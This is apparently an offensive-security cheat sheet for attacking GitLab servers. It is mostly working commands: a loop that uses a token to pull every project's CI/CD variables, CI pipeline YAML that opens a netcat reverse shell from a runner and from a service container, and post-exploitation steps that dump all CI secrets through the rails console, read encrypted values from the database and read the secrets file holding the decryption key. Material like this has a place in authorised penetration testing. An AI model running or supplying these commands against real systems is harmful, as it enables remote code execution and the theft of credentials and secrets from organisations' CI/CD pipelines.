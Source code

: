 ```yaml
---
description: Gitlab checks
---
```


# Gitlab

### Search for secrets

{% embed url="https://github.com/praetorian-inc/noseyparker" %}

```bash
#Scan repo
docker run -v "$PWD":/scan ghcr.io/praetorian-inc/noseyparker:latest scan .
#Get results
docker run -v "$PWD":/scan ghcr.io/praetorian-inc/noseyparker:latest report
```

### Reconnaissance

{% embed url="https://embracethered.com/blog/posts/2022/hacking-gitlab-servers/" %}

### Check public repositories

```bash
curl "https://gitlab.com/api/v4/projects?visibility=public&per_page=100"" | jq '.[] | {name, path, web_url}'
```

* `membership=true` — только проекты, где ты участник
* `per_page=100` — увеличивает количество результатов (GitLab по умолчанию возвращает 20)

**Route `/explore` allow to go behind the login panel**

### Abusing GitLab token

### Token prefixes

The following table shows the prefixes for each type of token.

| Token name                        | Prefix                                                                                                                                                                                                                                                                                                                                                                                                   |
| --------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Personal access token             | `glpat-`                                                                                                                                                                                                                                                                                                                                                                                                 |
| OAuth Application Secret          | `gloas-`                                                                                                                                                                                                                                                                                                                                                                                                 |
| Impersonation token               | `glpat-`                                                                                                                                                                                                                                                                                                                                                                                                 |
| Project access token              | `glpat-`                                                                                                                                                                                                                                                                                                                                                                                                 |
| Group access token                | `glpat-`                                                                                                                                                                                                                                                                                                                                                                                                 |
| Deploy token                      | `gldt-` ([Added in GitLab 16.7](https://gitlab.com/gitlab-org/gitlab/-/issues/376752))                                                                                                                                                                                                                                                                                                                   |
| Runner authentication token       | `glrt-` or `glrtr-` if created via registration token                                                                                                                                                                                                                                                                                                                                                    |
| CI/CD Job token                   | <p><code>glcbt-</code><br>• (<a href="https://gitlab.com/gitlab-org/gitlab/-/issues/426137">Introduced</a> in GitLab 16.8 behind a feature flag named <code>prefix_ci_build_tokens</code>. Disabled by default.)<br>• (<a href="https://gitlab.com/gitlab-com/gl-infra/production/-/issues/17299">Generally available</a> in GitLab 16.9. Feature flag <code>prefix_ci_build_tokens</code> removed.)</p> |
| Trigger token                     | `glptt-`                                                                                                                                                                                                                                                                                                                                                                                                 |
| Feed token                        | `glft-`                                                                                                                                                                                                                                                                                                                                                                                                  |
| Incoming mail token               | `glimt-`                                                                                                                                                                                                                                                                                                                                                                                                 |
| GitLab agent for Kubernetes token | `glagent-`                                                                                                                                                                                                                                                                                                                                                                                               |
| GitLab session cookies            | `_gitlab_session=`                                                                                                                                                                                                                                                                                                                                                                                       |
| SCIM Tokens                       | <p><code>glsoat-</code><br>• (<a href="https://gitlab.com/gitlab-org/gitlab/-/issues/435096">Introduced</a> in GitLab 16.8 behind a feature flag named <code>prefix_scim_tokens</code>. Disabled by default.)<br>• (<a href="https://gitlab.com/gitlab-org/gitlab/-/issues/435423">Generally available</a> in GitLab 16.9. Feature flag <code>prefix_scim_tokens</code> removed.)</p>                    |
| Feature Flags Client token        | `glffct-`                                                                                                                                                                                                                                                                                                                                                                                                |

#### Get variables from projects

define count pages and replace max page in seq. First take all projects id

```bash
for page in $(seq 0 110); do echo $page && curl -s --header "PRIVATE-TOKEN: <token>" "https://gitlab.example.com/api/v4/projects?per_page=100&page=$page" | jq ".[].id" >> gitlab-ids.txt; done
```

Then try get var

```bash
while IFS='' read -r LINE || [ -n "${LINE}" ]; do url="https://gitlab.example.com/api/v4/projects/$LINE"; vars=$(curl -s --header 'PRIVATE-TOKEN: token' $url/variables); [ ${#vars} -gt 5 ] && echo $vars > .tempvars && curl -s --header 'PRIVATE-TOKEN: token' $url | jq --slurpfile v .tempvars '{id: .id, git: .http_url_to_repo, vars: $v[0]}' >> gitlab-vars.txt; done <gitlab-ids.txt
```

Also try get gitlab-group vars (мне пока лень)

### Abusing GitLab Runners

{% embed url="https://frichetten.com/blog/abusing-gitlab-runners/" %}

Script for steal tasks by requesting them faster than a real runner - [https://github.com/Frichetten/gitlab-runner-research](https://github.com/Frichetten/gitlab-runner-research)



### Check projects access level&#x20;

```bash
curl --header "PRIVATE-TOKEN: <token>" "https://gitlab.com/api/v4/projects?membership=true&per_page=100"
```

* `membership=true` — только проекты, где ты участник
* `per_page=100` — увеличивает количество результатов (GitLab по умолчанию возвращает 20)

```json
[
  {
    "id": 123,
    "name": "my-repo",
    "path": "my-repo",
    "permissions": {
      "project_access": {
        "access_level": 30  # 30 = Developer
      },
      "group_access": null
    }
  }
]
```

**Уровни доступа:**

* `10` — Guest (только чтение)
* `20` — Reporter (чтение + доступ к CI/CD)
* `30` — Developer (чтение + запись + запуск CI/CD)
* `40` — Maintainer (полный доступ, кроме удаления проекта)
* `50` — Owner (полный доступ)



### CI Abuse

**Exec code in runner**

```yaml
stages:
  - build
  
build-job:
  image: 
    name: python:3.11-alpine
  stage: build
  script:
    - nc 192.168.1.1 1337 -e /bin/sh
  tags:
    - runner-tag                        #Check tags of runners in project settings
```



**Exec code in runner service**

_Services can also have privileged containers_

```yaml
stages:
  - build

build-job:
  image: docker:28.0.4-dind-alpine3.21
  services:
    - name: docker:28.0.4-dind-alpine3.21
      alias: docker
      command: ["nc", "192.168.1.1", "1337", "-e", "/bin/sh"]
  variables:
    DOCKER_HOST: tcp://docker:2375
    DOCKER_TLS_CERTDIR: ""        
  stage: build
  script:
    - echo waiting && sleep 999999999
  tags:
    - runner-tag                   #Check tags of runners in project settings
```

### Postexploit

Get all ci\_variables from filesystem gitlab instance.

Way 1. open gitlab-rails console

```bash
gitlab-rails console
```

then enter script

```ruby
	Project.joins(:variables).find_each do |project|
	  puts "=" * 50
	  puts "PROJECT: #{project.full_path} (ID: #{project.id})"
	  puts "=" * 50
	  
	  project.variables.each do |var|
	    puts "Key: #{var.key}"
	    puts "Value: #{var.masked? ? '[MASKED]' : var.value}"
	    puts "Protected: #{var.protected?}"
	    puts "Masked: #{var.masked?}"
	    puts "Environment scope: #{var.environment_scope}"
	    puts "---"
	  end
	  puts "\n"
	end
```

Way 2. Read encrypted vars from db

```bash
gitlab-psql -U gitlab-psql -c 'select key, encrypted_value from ci_variables;'
```

read aes key for decryption

```bash
cat /etc/gitlab/gitlab-secrets.json
```

then decrypt  it :smile: `AES-256-CBC`  algo
